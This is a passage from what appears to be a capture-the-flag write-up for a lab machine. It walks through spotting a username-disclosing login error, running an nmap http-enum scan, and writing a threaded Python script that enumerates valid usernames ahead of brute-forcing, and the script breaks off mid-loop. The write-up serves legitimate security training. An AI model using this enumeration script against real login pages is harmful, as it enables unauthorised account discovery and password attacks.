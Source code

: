 When we try to input some random creds, we get an error message saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` However, when we try default creds like `admin:admin`, we only get `Wrong password. Please try again. Redirecting in 3 seconds.` We can also see that the `HTTP Method: POST` and `Subdirectory: login.php` pop up for a few seconds. We can confirm this by nmap scan.

#### Nmap to Discover the Login Page
```bash
nmap -p80 --script http-enum <IP>
```

Now that we have managed to find the login page, we can try to `brute-force` this page. Before finding passwords we need to find users in the website. One of the users is `admin`, we can confirm that from earlier error message. We can use a Python script to find users.
#### Python Script to Enumerate Users
```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
from urllib.parse import urljoin

print_lock = threading.Lock()

def is_valid_user(response):
    invalid_msg = "Wrong username or password. Please try again.<br>Redirecting in 3 seconds."
    return not (response.text.strip() == invalid_msg and len(response.text.strip()) == 74)

def check_username(session, post_url, username_field, password_field, fake_password, username):
    data = {username_field: username, password_field: fake_password}
    try:
        response = session.post(post_url, data=data, timeout=10)
        if is_valid_user(response):
            with print_lock:
                print(f"[+] Valid username: {username}")
    except requests.RequestException:
        pass  # silently ignore errors

def main():
    print("=== User Enumeration (Only Valid Users Output) ===\n")
    base_url = input("Base URL (e.g. http://lookup.thm/): ").strip()
    post_path = input("Login form action path (e.g. login.php): ").strip()
    post_url = urljoin(base_url, post_path)
    username_field = input("Username field name (e.g. username): ").strip()  # The username and password fields can be extracted from 
    password_field = input("Password field name (e.g. password): ").strip()  # the source page under username and password snippets.
    fake_password = input("Fake password to use (e.g. Invalid123!): ").strip()
    wordlist_path = input("Path to username wordlist: ").strip()
    threads = input("Number of threads to use (default 10): ").strip()
    threads = int(threads) if threads else 10

    session = requests.Session()
    try:
        with open(wordlist_path, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        return

    print(f"\n[*] Starting scan with {threads} threads...\n")

    with ThreadPoolExecutor(max_workers=threads) as executor:
        for username in usernames:
```